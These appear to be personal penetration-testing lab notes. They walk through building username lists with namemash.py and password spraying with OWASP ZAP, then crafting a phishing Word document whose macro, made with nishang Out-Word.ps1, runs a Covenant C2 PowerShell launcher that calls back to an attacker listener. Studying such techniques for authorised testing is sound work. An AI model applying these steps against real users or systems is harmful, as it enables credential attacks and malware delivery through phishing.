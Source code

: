 
## Enum
- Write down names/usernames 
- we can run **namemash.py** to transform all gathered names into possible usernames

```python
python3 namemash.py <names-file.txt>
```

Run owasp ZAP:
```powershell
attack > fuzz = intruder of burp
here we can add username/password as variables and try password spraying/credential stuffing
```



## Phishing DOC
write an email with that access
```
go to github > nishang Out-Word.ps1 
# this will put a malicious macro in your word file
save the exploit: notepad > OutWord.ps1
```


Create a listener in Convenant:
```
Listeners > httpListener: 
name: HTTP Listener
ConnectAddresses: <kali ip>
ConnectPort: 80 (or another if u want)
Save
```

```
# Go to Lauchers > Powershell > Generate > Listener: HTTP Listener
DotNetVersion: Net40
KillDate: something in the future
Generate
# Lauchers > Host > url: rev,ps1 > host
copy the encoded payload
```


Go to Workstation-01: where the phishing is happening:
```
powershell > import OutWord.ps1 = . .\OutWord.ps1
run the file > OutWord.ps1 -Payload "paste the encoded payload" -OutputFile Something.doc
now we gotta send the something.doc to the kali machine
```


in Kali:
```
smbserver.py Share . -smb2support
```

